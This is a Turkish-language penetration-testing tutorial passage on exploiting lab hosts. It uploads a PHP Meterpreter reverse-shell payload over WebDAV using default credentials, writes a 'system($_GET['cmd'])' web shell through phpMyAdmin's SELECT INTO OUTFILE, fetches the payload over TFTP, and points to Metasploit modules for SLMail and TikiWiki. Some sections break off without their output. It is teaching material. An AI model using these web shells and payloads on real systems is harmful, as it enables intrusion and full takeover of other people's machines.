

### Exploitation

Tüm hazırlık çalışmalarımızdan sonra, zevkli bir bölüme gelmiş bulunmaktayız: _exploitation_. Bu bölümde bulmuş olduğumuz açıklardan sızma yapmayı deneyeceğiz.

#### WebDAV Varsayılan Kimliğinden Sızma

Hatırlıyorsanız önceki bölümlerde Windows XP sistemimizde bulunan XAMPP kurulumu WebDAV erişimi için varsayılan değerleri kullandığı öğrenmiştik. Bundan faydalanarak web sunucusuna Cadaver ile dosya yükleyebiliriz. Denememiz için basit bir dosya oluşturalım:

```ShellSession
root@kali:~# cat test.txt
test
```

Şimdi Cadaver'i kullanarak _wampp:xampp_ kimliği ile giriş yapacağız:

```ShellSession
root@kali:~# cadaver http://192.168.20.10/webdav
Authentication required for XAMPP with WebDAV on server `192.168.20.10': Username: wampp
Password:
dav:/webdav/>
```

Son olarak, _test.txt_ dosyasını yüklemek için WebDAV'ın `put` komutu kullanıyoruz.

```ShellSession
dav:/webdav/> put test.txt
Uploading test.txt to `/webdav/test.txt':
Progress: [=============================>] 100.0% of 5 bytes succeeded. 
dav:/webdav/>
```

Eğerde /webdav/test.txt adresine gidersek, dosyamızın sunucuya başarıyla yüklendiğini göreceğiz.

##### Hedefimizdeki Web Sunucusunda Script Çalıştırma

Yüklemiş olduğumuz text dosyası pek işimize yaramaz; onun yerine web sunucusuna script dosyasını yükleyip onu nasıl çalıştırılacağına bir bakalım. Eğer Apache sunucusu bir sistem yazılımı olarak kurulduysa, ozaman sistem taraflı bir yetki; değilse de Apache sunucusunu başlatan kimsenin yetkisiyle çalışacaktır. Her iki durumda da sunucuya script dosyamızı yüklememiz yeterli olacaktır. Bunun için bir PHP dosyası oluşturup sunucuya atalım. 

```ShellSession
dav:/webdav/> put test.php
Uploading test.php to `/webdav/test.php':
Progress: [=============================>] 100.0% of 5 bytes succeeded. 
dav:/webdav/>
```

##### Msfvenom Payload Yükleme

Direkt olarak PHP dosyalarını yükleme işlemine ek olarak, Msfvenom kullanarak sunucuya yükleme yapma amaçlı Metasploit payload'ını yaratabiliriz. İlk önce `-l` değerini vererek PHP payload listesine bir göz atalım

```ShellSession
root@kali:~# msfvenom -l payloads 
#1  php/bind_perl               Listen for a connection and spawn a command
                                    shell via perl (persistent)
    php/bind_perl_ipv6          Listen for a connection and spawn a command
                                    shell via perl (persistent) over IPv6
    php/bind_php                Listen for a connection and spawn a command
                                    shell via php
    php/bind_php_ipv6           Listen for a connection and spawn a command
                                    shell via php (IPv6)
#2  php/download_exec           Download an EXE from an HTTP URL and execute it
    php/exec                    Execute a single system command
#3  php/meterpreter/bind_tcp    Listen for a connection over IPv6, Run a
                                    meterpreter server in PHP
    php/meterpreter/reverse_tcp Reverse PHP connect back stager with checks
                                    for disabled functions, Run a meterpreter
                                    server in PHP
    php/meterpreter_reverse_tcp Connect back to attacker and spawn a
                                    Meterpreter server (PHP)
    php/reverse_perl            Creates an interactive shell via perl
    php/reverse_php             Reverse PHP connect back shell with checks
                                    for disabled functions
    php/shell_findsock
```

Msfvenom bize birkaç seçenek sunmakta: 1. Shell yaratma, 2. Dosyayı indirme ve sistemimizde çalıştırabilme, 3. Meterpreter kullanma. Bunların herhangi birini kullanarak sistemi kontrol altına alabiliriz, ama burda _php/meterpreter/reverse_tcp_ kullanalım. Payload'mızı belirledikten sonra, `-o` değeri ile kullanacabileceğimiz seçenekleri bulabiliriz:

```ShellSession
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp -o 
[*] Options for payload/php/meterpreter/reverse_tcp

--snip--
Name    Current Setting  Required    Description
----    ---------------  --------    -----------
LHOST                    yes        The listen address 
LPORT   4444             yes        The listen port
```

Gördüğnüz gibi _LHOST_ ile hangi IP adresine _LPORT_ hangi porta bağlanacağını gösterebiliriz. Bu payload zaten PHP formatında olduğu için `-f` değeri ile asıl (raw) haliyle çıktı alınmasını söyleriz. 

```ShellSession
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2323 -f raw > meterpreter.php
```

Sonrasında ise WebDAV kullanarak yüklüyoruz.

```ShellSession
dav:/webdav/> put meterpreter.php
Uploading meterpreter.php to `/webdav/meterpreter.php':
Progress: [=============================>] 100.0% of 1317 bytes succeeded.
```

Scripti çalıştırmadan önce Msfconsole ayarını yapmamız gerekir: 

```ShellSession
msf > use multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.20.9
lhost => 192.168.20.9
msf exploit(handler) > set LPORT 2323
lport => 2323
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.20.9:2323
[*] Starting the payload handler...
```

Web tarayıcısında yüklemiş olduğumuz payload çalıştırdığımızda Meterpreter oturumu açlır ve Msfconsole ekranında:

```ShellSession
[*] Sending stage (39217 bytes) to 192.168.20.10
[*] Meterpreter session 2 opened (192.168.20.9:2323 -> 192.168.20.10:1301) at
2015-01-07 17:27:44 -0500
meterpreter >
```

Meterpreter komutu olan `getuid` ile açtığımız oturumun sızdığımız makinede yetkisini öğrenebiliriz. Genel olarak sızdığımız uygulamanın yetkisini almış oluyoruz

```ShellSession
meterpreter > getuid 
BOOKXP\SYSTEM
```

Şimdi bizim sistem yetkimiz var, yani bu Windows sistemini ful kontrol altına almak demektir. 

#### Açık phpMyAdmin'e Sızma

Aynı hedefimizde açık phpMyAdmin kurulumu olduğunu da biliyoruz, bu bize veritabanı sunucusunda komutları çalıştırmaya yardımcı olacaktır. Apache gibi MySQL sunucusunda da ya sistem yetkisi ya da çalıştıran kişinin yetkisi vardır. WebDAV de olduğu gibi dosyaları yükleyebilir, sunucuda MySQL sorgularını çalıştırabiliriz.

İlk önce http://192.168.2.10/phpmyadmin adresine gidelim, ve üst kısımda bulunan SQL sekmesini açalım. Remote shell ulaşmak için web sunucusuna MySQL scriptlerini yazacağız. Uzaktan sistemi kontrol etmek için SQL SELECT komutunun çıktısını PHP dosyalarına alacağız.

XAMPP Apache varsayılan olarak Windows sistemlerinde C:\xampp\htdocs\ dizininde bulunmakta. Yazacağımız komut  `SELECT <script metni> INTO OUTFILE web_sunucusu_dizini` şeklinde olacaktır:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"
```


Tamamlamış halini phpMyAmin panelinde çalıştıralım ve http://192.168.2.10/shell.php adresine giderek yeni oluşturduğumuz dosyayı açalım. Bu script 

```
Warning: system() [function.system]: Cannot execute a blank command in C:\ xampp\htdocs\shell.php on line 1
```

hatasını verecektir. `cmd` parametresi için hedefimizdeki sistemde hangi komutu çalıştırmak istediğmize dair bir değer vermemiz lazım. Örnek olarak, Windows XP sisteminde parametre olarak `ipconfig` atayalım.

```ShellSession
http://192.168.20.10/shell.php?cmd=ipconfig
```

Sonuç aşağıdaki gibi:


##### TFTP ile Dosya İndirme

Kali sistemizde dosyaları barındırmak için Atftpd TFTP sunucusunu kullanabiliriz. Atftpd daemon modunda başlatalım, _meterpreter.php_ scirptinin olduğu yerden

```ShellSession
root@kali:~# atftpd --daemon --bind-address 192.168.20.9 /tmp
```

`cmd` parametresi olarak _shell.php` scriptini atayalım

```
http://192.168.20.10/shell.php?cmd=tftp 192.168.20.9 get meterpreter.php
C:\\xampp\\htdocs\\meterpreter.php
```

Bu komut hedemizdeki Apache sunucusuna TFTP yardımıyla _meterpreter.php_ dosyasını çeker. Sonuç olarak `Transfer successful: 1373 bytes in 1 second, 1373 byte/s`

Şimdi biz http://192.168.2.10/meterpreter.php adresine giderek Meterpreter shell'ini açabiliriz. 

#### Üçüncü Taraf Yazılımlarda Arabellek Taşma Sızması

_Exploiting a Buffer Overflow in Third-Party Software_; Windows makinemizde bulunan SLMail sunucusuna POP3'ün CVE-2003-0264 sorunu ile sızma yapabileceğimize dair önceki bölümlerde de tam net cevap bulamamıştık. SLMail 5.5 sürümünün güvenlik zaafiyeti olduğunu görüyoruz. Metasploit'in _windows/pop3/seattlelab_pass_ modülünü kullanarak POP3 sunucusunda arabellek taşmasına sızma yapmayı deneyeceğiz


#### Üçüncü Taraf Web Yazılımlarına Sızma

Önceki bölümlerimizde, Ubuntu sistemimize karşı Nikto web tarayıcısını çalıştırdığımızda 1.9.8 sürümlü TikiWiki CMS uygulamasının _graph_formula.php_ scriptinde kod çalıştırma açığı olduğunu öğrenmiştik. Metasploit'te arama yaptığımızda _TikiWiki_ için birkaç modül çıkıyor;


Modül isimlerine baktığımızda, bize lazım olan modülün _unix/webapp/tikiwiki_graph_formula_exec_ olduğunu isminde _graph_formula_ içermesinden anlayabiliriz. Modül için `info` çalıştırdığımızda daha net kullanım amaçlarını görüyoruz, ve OSVDB numarası önceki bölümde bulduğumuz açıkla aynı olduğundan tahminimiz doğru ve şimdi kullanımına bakalım:


Gireceğimiz parametreler, önceki bölümlerde gördüğümüzden biraz farklı. (1) proxy zincirini veya (2) virtual host girebiliriz, ama bu durumda gerek yok. (3) URI girebiliriz ama varsayılan değeri _/tikiwiki_ yeterlidir. 

Bu açık PHP komutlarını çalıştırmaya yaradığından, bulacağımız payload'lar da PHP tabanlı olacaktır. `show payloads` komutunu çalıştırdığımızda (1) PHP tabanlı Meterpreter kullanabileceğimizi görüyoruz. (2) LHOST değerine de ihtiyacımız var



Gördüğünüz gibi, TikiWiki için sızma işleminde Metasploit modülü TikiWiki veritabanı için (3) kimlik bilgilerini keşfetti. 

* Exploiting Open phpMyAdmin
    * Downloading a File with TFTP
* Downloading Sensitive Files
    * Downloading a Configuration File
    * Downloading the Windows SAM
* Exploiting a Buffer Overflow in Third-Party Software
* Exploiting Third-Party Web Applications


